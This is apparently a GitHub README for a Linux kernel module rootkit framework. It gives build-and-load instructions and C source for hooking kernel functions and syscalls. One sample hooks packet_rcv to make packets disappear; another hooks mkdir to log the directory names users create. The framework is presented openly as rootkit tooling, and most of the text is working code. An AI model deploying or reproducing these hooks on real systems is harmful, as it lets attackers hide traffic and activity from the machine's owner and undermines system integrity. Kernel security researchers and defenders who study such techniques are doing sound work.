

# LKM Hijacking Framework (under construction)

- a small framework for hooking functions and syscalls for linux kernel module rootkits on linux kernel 5.7+

***tested on:***
```
# uname -a
Linux SniperX-D 5.8.0-48-generic #54~20.04.1-Ubuntu SMP Sat Mar 20 13:40:25 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

to use the rootkit, run:
```sh
make

insmod hooking_test_lkm.ko
```

### example for hiding packets (hooking packet_rcv):

a code sample from src/packet_hide.c:
```c
#include <linux/netfilter.h>
#include "function_hooking.h"

struct hooked_function packet_rcv; //the struct of a hooked function

int fake_packet_rcv(struct sk_buff *skb, struct net_device *dev,struct packet_type *pt, struct net_device *orig_dev)
{
	pr_info("im called! packet_rcv");
	consume_skb(skb); // "hide" the packet
	return 1;
}

int  init_packet_hide(void){
	pr_info("init_packet_hide");
	strcpy(packet_rcv.function_name,"packet_rcv"); //function's name
	packet_rcv.fake_function = &fake_packet_rcv; //fake function address
	hook_function(&packet_rcv); //hook the function
	return 1;
}

int exit_packet_hide(void){
	pr_info("exit_packet_hide");
	reset_function(&packet_rcv); //reset the function to its original state
	return 1;
}
```

### live example:


### example for hooking mkdir syscall (source: https://github.com/xcellerator/linux_kernel_hacking/blob/1ce0db23318d73a19e046a36da731e43c42faf41/3_RootkitTechniques/3.1_syscall_hooking/rootkit.c):

a code sample from src/open_hook.c:
```c
#include "syscall_hooking.h"

struct hooked_syscall nr_open;

typedef asmlinkage long (*orig_mkdir_t)(const struct pt_regs *);
orig_mkdir_t orig_mkdir;

asmlinkage int hook_mkdir(const struct pt_regs *regs)
{
    char __user *pathname = (char *)regs->di;
    char dir_name[NAME_MAX] = {0};

    long error = strncpy_from_user(dir_name, pathname, NAME_MAX);

    if (error > 0)
        printk(KERN_INFO "rootkit: Trying to create directory with name: %s\n", dir_name);

    orig_mkdir(regs);
    return 0;
}

int init_open_hook (void){

	nr_open.syscall = __NR_mkdir;
	nr_open.fake_syscall = &hook_mkdir;

	orig_mkdir = (orig_mkdir_t)hook_syscall(&nr_open);
	return 1;
}

int exit_open_hook (void){

	reset_syscall(&nr_open);
	return 1;
}
```

### live example:

